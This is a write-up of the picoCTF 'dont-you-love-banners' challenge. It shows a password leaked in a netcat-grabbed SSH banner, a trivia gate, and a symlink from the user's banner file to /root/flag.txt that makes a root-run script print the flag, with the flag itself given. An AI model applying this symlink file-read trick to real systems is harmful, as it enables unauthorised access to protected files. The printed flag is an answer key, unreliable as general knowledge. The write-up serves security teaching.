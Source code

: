 ---
tags: []
---
# dont-you-love-banners

- **Description:** Can you abuse the banner?
- **Difficulty:** Medium

---

## 🔎 Solution
The first server contains leaked information. Upon connecting, we discover the password: `My_Passw@rd_@1234`.
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc tethys.picoctf.net 53058
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

Next, we connect to the second server. 
Here, we are prompted with a series of questions. 
Answering them correctly grants us shell access, allowing us to execute commands.
```bash
what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
```

Running `ls` in the home directory `~`, we find 2 files: `banner` and `text`. 
Upon inspection, neither file appears to contain the flag.
```bash
player@challenge:~$ ls
ls
banner  text
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
```  

Navigating to the `/root` directory, we discover 2 files: `flag.txt` and `script.py`. 
However, we don't have the necessary permissions to read `flag.txt`.
```bash
player@challenge:/root$ ls
ls
flag.txt  script.py
player@challenge:/root$ cat flag.txt    
cat flag.txt
cat: flag.txt: Permission denied
```

Examining `script.py`, we learn that it is responsible for displaying the server's welcome message upon user connection. 
Specifically, it reads and prints the contents of `/home/player/banner`, which we've already seen.
```python
 try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")
```

Since we cannot read `flag.txt` directly due to permission restrictions, we consider using a **[symbolic link](https://www.geeksforgeeks.org/how-to-symlink-a-file-in-linux/)** (*symlink*). 
A symlink is a special type of file that acts as a reference or shortcut to another file or directory.  
To exploit this, we delete the original banner file and create a symlink that points to `/root/flag.txt`:
```bash
player@challenge:~$ rm -rf banner
rm -rf banner
player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
player@challenge:~$ ls
ls
banner  text
```
This command creates a symbolic link named banner that redirects to the restricted `flag.txt`.  
Now, when a user connects to the server again, `script.py` reads the new banner - which is actually a symlink to `flag.txt`. 
As a result, the contents of the flag are displayed on connection, successfully revealing the flag.
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc tethys.picoctf.net 55013
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}
```

## 🚩Flag
> `picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}`
